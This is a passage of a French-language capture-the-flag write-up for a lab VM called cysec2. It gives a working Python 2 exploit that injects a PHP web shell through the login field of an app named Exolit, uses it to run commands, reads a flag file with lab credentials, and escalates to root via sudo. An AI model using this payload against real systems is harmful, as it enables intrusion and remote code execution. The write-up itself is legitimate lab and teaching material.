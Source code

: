 J'ai repris l'exploit et l'ai simplifié au maximum. C'est du Python 2 :

```python
import urllib, urllib2, time

url = "http://192.168.56.229/Exolit/index.php"
CMD = '"];$PWN=''system($_GET[chr(99)]);//''//"'

data = urllib.urlencode({'creation' : '1', 'login' : CMD, 'pass' : 'abc123', 'confirm' : 'abc123', 'token' : ''})
req = urllib2.Request(url, data)
   
response = urllib2.urlopen(req)
time.sleep(0.5)
print response.read()
```

Une fois exécuté, on peut appeler notre web shell de cette façon :

```
http://192.168.56.229/Exolit/private/auto_restrict_users.php?c=uname%20-a
```

Ce qui me donne l'output suivant :

```
Linux cysec2 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

Après avoir placé et exécuté `reverse-ssh` je trouve vite des informations utiles dans le système de fichiers :

```console
www-data@cysec2:/var/www/html/Exolit/private$ cat /var/www/html/Exolit/flag.txt
This is Flag 2 , Congrats , you close to root 
username = cysec2 
password =  $^WAhuy457i6kj
Flag (60b40b7846a7afe973ce089f19068cffc53e40fe28cd076f937c644f6127aad6)
```

L'utilisateur peut facilement passer `root` via `sudo`. On a terminé :

{% raw %}
```console
www-data@cysec2:/var/www/html/Exolit/private$ su cysec2
Password: 
cysec2@cysec2:/var/www/html/Exolit/private$ sudo -l
[sudo] password for cysec2: 
Matching Defaults entries for cysec2 on cysec2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cysec2 may run the following commands on cysec2:
    (ALL : ALL) ALL
cysec2@cysec2:/var/www/html/Exolit/private$ sudo su
root@cysec2:/var/www/html/Exolit/private# id
uid=0(root) gid=0(root) groups=0(root)
root@cysec2:/var/www/html/Exolit/private# cd /root
root@cysec2:~# ls
Congrats.txt  snap
root@cysec2:~# cat Congrats.txt 
Congrats this is final flag {%#hYU5QU^JHQWi765W&WSaUYH%4etI^u}
```
{% endraw %}
